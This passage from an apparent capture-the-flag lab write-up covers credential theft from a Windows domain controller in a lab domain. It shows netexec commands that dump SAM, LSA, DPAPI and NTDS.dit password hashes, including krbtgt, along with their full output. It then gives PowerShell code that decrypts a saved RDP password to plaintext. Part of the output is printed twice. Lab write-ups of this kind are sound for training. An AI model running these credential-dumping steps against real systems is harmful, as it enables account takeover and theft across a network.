SMB         172.16.0.2      445    DC               ALCHEMY\DC$:plain_password_hex:df2b3206a2e164d4677f1be8cdd61f66dabae5351c9c5c9d5fd62f1862cd26200f6f33fbea93d7778cb21f724480fce2fc2d3c31efd4f1a8ec09b019c07b6380a6b8f5d4209104c502f24dfd2f1d03093644f4eb858ef3b68fdd5aba3f954656c2dd23ad96d5d36f13db9f46192cffc4a20a12f1eba334fe370fbf72780dd01264adaafa8ee3de2873329579398dfa1c226abebddb92c265b567d95d1889e6c6bbb3f90acabb91116c84daaf458e0fb355541afebf19962bfd26df105133c158262668b929e3113cb6d8a7f17a19cd47d84d3a3bb3580dd9eec961cd20bbd75249f1663946fb3ce4e1fb6c1138556979
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:aad3b435b51404eeaad3b435b51404ee:02bd48877c471807a3e83963d8f27d6a:::
SMB         172.16.0.2      445    DC               dpapi_machinekey:0xa15491feb72662f1c6a225a4433ed92c1c7bd346
dpapi_userkey:0x3800a2756109f6c4492f572e39e070d274724667
SMB         172.16.0.2      445    DC               [+] Dumped 6 LSA secrets to /home/user/.nxc/logs/lsa/DC_172.16.0.2_2026-04-20_161330.secrets and /home/user/.nxc/logs/lsa/DC_172.16.0.2_2026-04-20_161330.cached
SMB         172.16.0.2      445    DC               [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.0.2      445    DC               [+] Got 10 decrypted masterkeys. Looting secrets...
netexec smb 172.16.0.2 -u Administrator -p tXxAtjrJnKrz --sam --lsa --dpapi
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\Administrator:tXxAtjrJnKrz (Pwn3d!)
SMB         172.16.0.2      445    DC               [*] Dumping SAM hashes
SMB         172.16.0.2      445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f05761530126debd470d07ceeb42540:::
SMB         172.16.0.2      445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.2      445    DC               [+] Added 2 SAM hashes to the database
SMB         172.16.0.2      445    DC               [*] Dumping LSA secrets
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:aes256-cts-hmac-sha1-96:0e298baedb897150346a08dfe4864cbbe2db78e2653e86319428659448065f55
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:aes128-cts-hmac-sha1-96:e2d9cecd4f400998be8efdd8ce25423a
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:des-cbc-md5:865407ef9446d3e6
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:plain_password_hex:df2b3206a2e164d4677f1be8cdd61f66dabae5351c9c5c9d5fd62f1862cd26200f6f33fbea93d7778cb21f724480fce2fc2d3c31efd4f1a8ec09b019c07b6380a6b8f5d4209104c502f24dfd2f1d03093644f4eb858ef3b68fdd5aba3f954656c2dd23ad96d5d36f13db9f46192cffc4a20a12f1eba334fe370fbf72780dd01264adaafa8ee3de2873329579398dfa1c226abebddb92c265b567d95d1889e6c6bbb3f90acabb91116c84daaf458e0fb355541afebf19962bfd26df105133c158262668b929e3113cb6d8a7f17a19cd47d84d3a3bb3580dd9eec961cd20bbd75249f1663946fb3ce4e1fb6c1138556979
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:aad3b435b51404eeaad3b435b51404ee:02bd48877c471807a3e83963d8f27d6a:::
SMB         172.16.0.2      445    DC               dpapi_machinekey:0xa15491feb72662f1c6a225a4433ed92c1c7bd346
dpapi_userkey:0x3800a2756109f6c4492f572e39e070d274724667
SMB         172.16.0.2      445    DC               [+] Dumped 6 LSA secrets to /home/user/.nxc/logs/lsa/DC_172.16.0.2_2026-04-20_161330.secrets and /home/user/.nxc/logs/lsa/DC_172.16.0.2_2026-04-20_161330.cached
SMB         172.16.0.2      445    DC               [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.0.2      445    DC               [+] Got 10 decrypted masterkeys. Looting secrets...

```

And the NDTS.dit database with all the creds:

```bash
netexec smb 172.16.0.2 -u Administrator -p tXxAtjrJnKrz --ntds             
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\Administrator:tXxAtjrJnKrz (Pwn3d!)
SMB         172.16.0.2      445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.0.2      445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:731c191234d0934dee79dd57169c6da7:::
SMB         172.16.0.2      445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.2      445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:855e94c0c14a2cef0f6229eef8f34836:::
SMB         172.16.0.2      445    DC               aepike:1104:aad3b435b51404eeaad3b435b51404ee:950e9197f5d470df2ee2a4c292d5609f:::
SMB         172.16.0.2      445    DC               calde:1105:aad3b435b51404eeaad3b435b51404ee:892a5f495cea43597dfe34c765add078:::
SMB         172.16.0.2      445    DC               calde_ldap:1106:aad3b435b51404eeaad3b435b51404ee:377d3f6ce5c66bc5e71c5d0921a7e7f0:::
SMB         172.16.0.2      445    DC               thanos:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         172.16.0.2      445    DC               james:1108:aad3b435b51404eeaad3b435b51404ee:c9b30a86acaea990bf9fa6c35ac9dd92:::
SMB         172.16.0.2      445    DC               DC$:1001:aad3b435b51404eeaad3b435b51404ee:02bd48877c471807a3e83963d8f27d6a:::
SMB         172.16.0.2      445    DC               [+] Dumped 9 NTDS hashes to /home/user/.nxc/logs/ntds/DC_172.16.0.2_2026-04-20_161448.ntds of which 8 were added to the database
SMB         172.16.0.2      445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.0.2      445    DC               [*] grep -iv disabled /home/user/.nxc/logs/ntds/DC_172.16.0.2_2026-04-20_161448.ntds | cut -d ':' -f1

```

Now before moving to the other machines, I want to check what other stuff can I see and from the Calde user I can see a link to a non-domain joined server:

```bash
evil-winrm-py PS C:\Users\calde\Documents> cat ws01.rdp
full address:s:172.16.0.32
username:s:calde
password 51:b:01000000D08C9DDF0115D1118C7A00C04FC297EB01000000A74D232999DCAA479430EF171E6D4FAD0000000002000000000003660000C000000010000000C3590AAA42F82FFA95833106EB994BBB0000000004800000A0000000100000009811006F7DF8DF0BB4DB973E11E6603C20000000D955D5B91E234B16F3E52A683096EE5BC60B690BBD42ECE424CE36B7C9CD17D414000000B542DA5BA10CBD5C77EF075D822F0F7A1FFD77C0
screen mode id:i:2
use multimon:i:0
desktopwidth:i:800
desktopheight:i:600
session bpp:i:32
winposstr:s:0,3,0,0,800,600
compression:i:1
keyboardhook:i:2
audiocapturemode:i:0
videoplaybackmode:i:1
connection type:i:7
networkautodetect:i:1
bandwidthautodetect:i:1
displayconnectionbar:i:1
enableworkspacereconnect:i:0
disable wallpaper:i:0
allow font smoothing:i:0
allow desktop composition:i:0
disable full window drag:i:1
disable menu anims:i:1
disable themes:i:0
disable cursor setting:i:0
bitmapcachepersistenable:i:1
audiomode:i:0
redirectprinters:i:1
redirectcomports:i:0
redirectsmartcards:i:1
redirectclipboard:i:1
redirectposdevices:i:0
autoreconnection enabled:i:1
authentication level:i:2
prompt for credentials:i:0
negotiate security layer:i:1
remoteapplicationmode:i:0
alternate shell:s:
shell working directory:s:
gatewayhostname:s:
gatewayusagemethod:i:4
gatewaycredentialssource:i:4
gatewayprofileusagemethod:i:0
promptcredentialonce:i:0
gatewaybrokeringtype:i:0
use redirection server name:i:0
rdgiskdcproxy:i:0
kdcproxyname:s:

```

Now I asked Gemini and apparently this is how you would decrypt it:

```bash
evil-winrm-py PS C:\Temp> Add-Type -AssemblyName System.Security
evil-winrm-py PS C:\Temp> $hex = "01000000D08C9DDF0115D1118C7A00C04FC297EB01000000A74D232999DCAA479430EF171E6D4FAD0000000002000000000003660000C000000010000000C
3590AAA42F82FFA95833106EB994BBB0000000004800000A0000000100000009811006F7DF8DF0BB4DB973E11E6603C20000000D955D5B91E234B16F3E52A683096EE5BC60B690BBD42ECE424CE36B7
C9CD17D414000000B542DA5BA10CBD5C77EF075D822F0F7A1FFD77C0"
evil-winrm-py PS C:\Temp> $bytes = for($i=0; $i -lt $hex.Length; $i+=2){ [Convert]::ToByte($hex.Substring($i,2), 16) }
evil-winrm-py PS C:\Temp> $decryptedBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($bytes, $null, [System.Security.Cryptography.DataProtection
Scope]::CurrentUser)
evil-winrm-py PS C:\Temp> [System.Text.Encoding]::Unicode.GetString($decryptedBytes)
UaqcsvzMxEjZ
evil-winrm-py PS C:\Temp>

```

I can move on to the WS01.

&nbsp;

&nbsp;